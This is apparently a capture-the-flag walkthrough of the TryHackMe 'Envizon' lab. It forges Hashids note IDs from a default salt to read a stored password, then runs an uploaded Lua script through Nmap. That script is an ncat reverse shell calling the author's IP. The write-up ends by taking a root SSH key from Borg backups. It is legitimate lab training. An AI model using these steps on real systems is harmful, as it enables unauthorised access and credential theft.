Tryhackme - Envizon - Walkthrough
Reconnaissance
This room provides three hints at the beginning:
- This is not an empty instance. Assume it is or was used and contains user data.
- A note feature is currently under development.
- When looking for code execution, the most obvious path is usually the correct one, it is important to understand what the application does.
The source code of the application is also provided:
Hosted on GitLabI started by adding the target IP to /etc/hosts as envizon.thm.
Then I performed a full Nmap scan:

└─$ sudo nmap -p- envizon.thmThis revealed a service running on port 3000, which is likely the main target.
Initially, nothing showed up in the browser until I tried using HTTPS:
https://envizon.thm:3000/users/sign_in
Enumeration
I cloned the application using the following command:
git clone https://gitlab.com/evait-security/envizon_thm.gitThis is a Ruby on Rails application, which follows the MVC pattern.
After some time inspecting the code, I found the note_controller.rb controller.
I came across the following code:
GET endpoint (Ruby)
# GET /notes/1
# GET /notes/1.json
def show
end
I navigated to:
https://envizon.thm:3000/notes/1It displayed the following message:

The message states that the password is stored in a note with ID 380.
However, when I tried accessing it directly:
It did not exist.
The message also mentions acts_as_hashids, which indicates that the application does not expose raw numeric IDs, but encoded ones.
After viewing the page source (CTRL+U), I found the actual URL used for note 1:
This confirms that note IDs are encoded using Hashids.
So instead of accessing /notes/1, the application uses a Hashid representation.
At this point, my goal was to generate the Hashid for 380 to access that note.
I searched the source code for how Hashids was configured:
grep -Ri 'hashid' .This led me to the following line in app/models/note.rb:
acts_as_hashids length: 30
I noticed that only the length was defined and no salt was specified.
From the documentation, if no salt is provided, a default value is used, often derived from the model name.
Since the model is called Note, I assumed the salt was:
"Note"
To verify this, I recreated the hash generation locally using a known mapping:
note 1 → Q36xB7PpDGnZ0ED4E28qrdRgkzyJbw
Hashid generator (Python)
from hashids import Hashids
id = 1
hash = Hashids(salt="Note", min_length=30)
print(hash.encode(id))
The output matched exactly, confirming that the salt was correct.
I then generated the hash for note 380.
Using the generated hash, I accessed:
https://envizon.thm:3000/notes/<generated_hash>This revealed the application password:

I used this password to log in:

Exploitation
I noticed an upload option in the Nmap section.
I uploaded a test file and then clicked Tasks in the navigation bar.

In the Retries section, I found the full path of the uploaded file:

This can be used to upload a Lua script and execute it through Nmap using the --script argument.
I created the following Lua script:
Reverse Shell (Lua)
os.execute("ncat 192.168.169.133 1234 -e /bin/sh")
I uploaded it the same way as before, naming it londra_shell.
Then I navigated to Manual Scan and entered the following parameter:
nmap --script /usr/src/app/envizon/nmap/uploads/londra_shell_0.xml
Make sure to use your own IP as the target.
Before executing, I started a Netcat listener on port 1234.
After running the scan, I received a reverse shell:

Post-Exploitation
Once inside, I navigated to /root and found the first flag:

Next, I looked for backups (as mentioned in the last tip) and found /var/backup.
Inside was a README stating:
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
The system uses Borg for backups. I checked /etc/borgmatic and found config.yaml:
encryption_passcommand: 'echo BORG_PASSPHRASE'I exported the passphrase:
export BORG_PASSPHRASE=BORG_PASSPHRASE_HEREThen listed available backups:
borg list /var/backup
I extracted one of the backups:
borg extract /var/backup::envizon-2020-09-30T23:25:30.466049This created a directory called root, inside the current directory. Inside, I found the .ssh folder containing a private key:

I copied the key into a file named id_rsa and used it to connect via SSH:
└─$ chmod 600 id_rsa && ssh -i id_rsa root@envizon.thm
This gave me root access. The final flag was located in the home directory:

That's it, thanks for reading, I hope that you, just like me, learned something new today.